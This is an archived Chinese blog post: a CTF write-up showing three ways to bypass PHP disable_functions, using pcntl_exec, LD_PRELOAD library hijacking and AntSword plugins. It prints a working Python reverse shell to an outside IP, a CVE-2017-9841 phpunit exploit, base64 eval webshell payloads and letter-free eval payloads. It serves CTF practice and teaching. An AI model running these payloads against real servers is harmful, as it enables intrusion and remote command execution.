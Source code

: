 <!--yml
category: 未分类
date: 2022-04-26 14:36:39
-->

# 如何在ctf解题实战中绕过disable_function_YnG_t0的博客-CSDN博客_disablefunctions 绕过

> 来源：[https://blog.csdn.net/qq_47168481/article/details/122638886](https://blog.csdn.net/qq_47168481/article/details/122638886)

# 文章介绍

本文介绍将介绍ctf比赛中遇到的三种绕过disable_function的方法，分别为利用`pcntl_exec`函数，利用`LD_PRELOAD`环境变量,以及使用`蚁剑的插件`绕过，最后获得flag

# 具体过程

## 利用pcntl_exec函数

**例题：`第四届蓝帽杯总决赛-php`**

**要点：`CVE-2017-9841的发现；pcntl-exec python反弹shell`**

扫描目录，可以发现存在：`/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php`
![在这里插入图片描述](img/b886b6bbc469ec7c3c6815dfb5a9f59f.png)
同时查看源码后发现这是一个php测试框架
![在这里插入图片描述](img/0b80fd77e395c47e33eef656b82402ee.png)
综合可以知道存在一个[phpunit漏洞 CVE-2017-9841](https://github.com/vulhub/vulhub/blob/master/phpunit/CVE-2017-9841/README.zh-cn.md)

利用方式为：进入探测的存在缺陷的目录，直接post执行命令，利用scandir函数扫描可以扫描到当前目录的文件中存在flag
![在这里插入图片描述](img/bdd44bbc1515ae2dc50fafb483a92a6f.png)
但是这一题遇到了disable_function，禁用了很多函数，如一些基本的system，exec函数都被禁用了，没有权限读取到flag，也无法反弹shell
![在这里插入图片描述](img/cdad703f4fb8e3cbaa7229ef3d0409ad.png)
查阅资料发现[pcntl-exec函数](https://www.php.net/manual/zh/function.pcntl-exec.php)没有被禁用，尝试利用

该函数表示在当前进程空间执行指定程序，当发生错误时返回false，执行成功时没有返回，也就是说执行成功也不会回显，于是使用该函数执行反弹shell，利用python反弹shell可以成功回显

```
 <?php pcntl_exec("/usr/bin/python",array('-c', 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM,socket.SOL_TCP);s.connect(("47.242.11.183",2333));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'));?> 
```

监听相应端口：`nc -lvp 2333`
拿到shell，查看flag文件的权限，发现其是属于admin用户的
![在这里插入图片描述](img/5a9c886bd3760d75579ef63c1d00fccb.png)于是尝试提权，suid等等都没用，再根目录翻找到数据库的账号密码
![在这里插入图片描述](img/85f85d3a351e61b1c3e1e557288c14ca.png)尝试利用密码登陆admin用户，由于不能回显，使用python实现交互
`python -c 'import pty;pty.spawn("/bin/sh")'`
再切换为admin用户，即可读取flag
![在这里插入图片描述](img/1e53c10001d19a774292968ca3e924fc.png)

*   **重点：**pcntl_exec函数反弹shell的使用****

```
<?php pcntl_exec("/usr/bin/python",array('-c', 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM,socket.SOL_TCP);s.connect(("47.242.11.183",2333));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'));?> 
```

## 利用LD_PRELOAD 环境变量

例题：`[GKCTF2020]CheckIN`
本题NSSCTF上面可以复现：[网站](https://www.ctfer.vip/#/problem/1301?back=%257B%2522contest%2522:%2522%2522,%2522year%2522:0,%2522source%2522:0,%2522name%2522:%2522CheckIN%2522,%2522username%2522:%2522%2522,%2522type%2522:0,%2522tag%2522:%255B%255D,%2522tagType%2522:0,%2522date%2522:%2522%2522,%2522unsolved%2522:false,%2522page%2522:1%257D)

要点：`对bypass disable_function的熟悉`

原理解释：
根据网上公布的一段绕过disable_function的[POC](https://www.exploit-db.com/exploits/35146)分析
在POC中，php的mail函数在执行过程中会默认调用系统程序/usr/sbin/sendmail，如果我们能劫持sendmail程序，再用mail函数来触发就能实现执行系统命令，通过webshell的环境变量LD_PRELOAD

LD_PRELOAD 环境变量，它可以影响程序运行时的链接，它允许你定义在程序运行前优先加载的动态链接库。
我们通过环境变量 LD_PRELOAD 劫持系统函数，可以达到不调用 PHP 的各种命令执行函数（system()、exec() 等等）仍可执行系统命令的目的。
如劫持 getuid()，是因为 sendmail 程序会调用该函数（当然也可以为其他被调用的系统函数）

但是使用sendmail函数会遇上很多阻碍，有大佬找到了新方法，并公布在了github上：[bypass disable_function](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)，在加载时就执行代码（拦劫启动进程），而不用考虑劫持某一系统函数。

具体原理可以看大佬的博客：[某大佬](https://wooyun.js.org/drops/%E5%88%A9%E7%94%A8%E7%8E%AF%E5%A2%83%E5%8F%98%E9%87%8FLD_PRELOAD%E6%9D%A5%E7%BB%95%E8%BF%87php%20disable_function%E6%89%A7%E8%A1%8C%E7%B3%BB%E7%BB%9F%E5%91%BD%E4%BB%A4.html) [WHOAMI大佬](https://www.freebuf.com/articles/network/263540.html)

**大佬的文件**
![在这里插入图片描述](img/b200ac1e669ae56ed8c22d2a20574a4f.png)

```
四个有用文件
php文件是一个webshell
两个so文件分别代表linux x32和x64环境下的动态链接库
c文件是编译它们的文件

具体用法：
cmd ：待执行的系统命令，如 whoami 命令。
outpath ：保存命令执行输出结果的文件路径（如 /tmp/xx），便于在页面上显示，另外该参数，你应注意 web 是否有读写权限、web 是否可跨目录访问、文件将被覆盖和删除等几点。
sopath ：指定劫持系统函数的共享对象的绝对路径（如 /var/www/bypass_disablefunc_x64.so），另外关于该参数，你应注意 web 是否可跨目录访问到它。 
```

### 题目分析过程

```
<?php 
highlight_file(__FILE__);
class ClassName
{
        public $code = null;
        public $decode = null;
        function __construct()
        {
                $this->code = @$this->x()['Ginkgo'];
                $this->decode = @base64_decode( $this->code );
                @Eval($this->decode);
        }

        public function x()
        {
                return $_REQUEST;
        }
}
new ClassName(); 
```

可以看到construct初始化后，赋予一个Ginkgo变量，再将赋予给Ginkgo的参数base64解密一下，再利用eval函数执行，尝试写入一句话

```
?Ginkgo=ZXZhbCgkX1BPU1RbY21kXSk7 
```

phpinfo一下查看disable_function
![在这里插入图片描述](img/9a6355ce8c991b84655d30362332447e.png)这里发现能被过滤的全都被过滤了，包括pcntl_exec等能够实现反弹shell的函数。

蚁剑连接，查看一下发现预期内执行不了命令
![在这里插入图片描述](img/909dfebb0c5333ba50eabac7526aa727.png)在这里上传两个必要文件后即可正常的RCE
/tmp目录表示临时目录，尝试在这上传.so以及.php文件，成功上传
![在这里插入图片描述](img/22f1608ffcde23405ade037e21bfe2a1.png)现在即可利用上传的两个文件进行命令执行,得到flag。

```
?Ginkgo=aW5jbHVkZSgiL3RtcC9ieXBhc3NfZGlzYWJsZWZ1bmMucGhwIik7&cmd=/readflag&outpath=/tmp/outfile123&sopath=/tmp/bypass_disablefunc_x64.so
base64即 include("/tmp/bypass_disablefunc.php"); 
```

![在这里插入图片描述](img/5cab03b7a8e2af07f70202fa83e07ec1.png)

## 利用蚁剑插件

**例题：`[极客大挑战 2019]RCE ME`**
这一题buu上可以复现：[网站](https://buuoj.cn/challenges#%5B%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019%5DRCE%20ME)

**要点：`无字母数字命令执行，蚁剑插件的利用`**

**开始解题**

```
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
} 
```

这里需要赋予code的参数长度小于等于40，且不能出现字母和数字

异或，取反，自增等都可以，[更详细的无字母数字的RCE](http://arsenetang.com/2021/07/28/RCE%E7%AF%87%E4%B9%8B%E6%97%A0%E5%AD%97%E6%AF%8D%E6%95%B0%E5%AD%97rce/)
这里采用较为方便的办法：取反法

首先phpinfo一下查看disable_function信息

```
<?php
$a='phpinfo';
echo urlencode(~$a);
?>
?code=(~%8F%97%8F%96%91%99%90)(); 
```

![在这里插入图片描述](img/dac481c96a293d46357095dd86e66638.png)![在这里插入图片描述](img/b92dfb9f9611996b6c157bf630be46ab.png)
在php7中，assert不再是函数，变成了一个语言结构（类似eval），不能再作为函数名动态执行代码，使用assert执行一句话。

发现和上一题一样过滤了很多函数，尝试写入一句话

```
<?php
$b='assert';
$c='eval($_POST[YNG])';
echo urlencode(~$b);
echo ("<p>");
echo  urlencode(~$c);
?>
?code=(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%A6%B1%B8%A2%D6); 
```

连接蚁剑后发现同样是无法命令执行
![在这里插入图片描述](img/c4cb0e6522512c753c9fe0a070c6a826.png)在这里需要使用的是linux版本的蚁剑，[下载地址](https://github.com/AntSwordProject/AntSword-Loader)，在插件市场中下载disable_function插件，这里需要设置代理才能成功
![在这里插入图片描述](img/244477357f3556924e3b05e1cc66f9ca.png)使用插件：`PHP7 GC with Certain Destructors UAF`
![在这里插入图片描述](img/38603badab4b821d7632d1013a2e215a.png)成功绕过disable_function并拿到flag
这一题也可以使用上一题的办法，就不再赘述了。

对插件的利用原理涉及到pwn的领域，就没再去深挖了，想看的师傅看一下[这个网站](https://www.anquanke.com/post/id/195686#h3-6)

在上一题中，尝试利用蚁剑插件，但是失败了，/tmp和根目录都不能上传
![在这里插入图片描述](img/c866509b14429cdf27130edf985e38e2.png)
当使用LD_PRELOAD插件时，如果可以上传的话，蚁剑会在/var/www/html目录里上传一个.antproxy.php文件，我们重新添加一个数据，将连接的 URL shell 脚本名字改为.antproxy.php，密码为ant，在这个新shell里面可以执行命令。

**参考文献：**

https://www.freebuf.com/articles/network/263540.html（WHOAMI大佬）

https://www.cnblogs.com/karsa/p/13051079.html（已经复出的kar3a大佬）

https://wooyun.js.org/drops/%E5%88%A9%E7%94%A8%E7%8E%AF%E5%A2%83%E5%8F%98%E9%87%8FLD_PRELOAD%E6%9D%A5%E7%BB%95%E8%BF%87php%20disable_function%E6%89%A7%E8%A1%8C%E7%B3%BB%E7%BB%9F%E5%91%BD%E4%BB%A4.html

http://arsenetang.com/2021/07/28/RCE%E7%AF%87%E4%B9%8B%E6%97%A0%E5%AD%97%E6%AF%8D%E6%95%B0%E5%AD%97rce/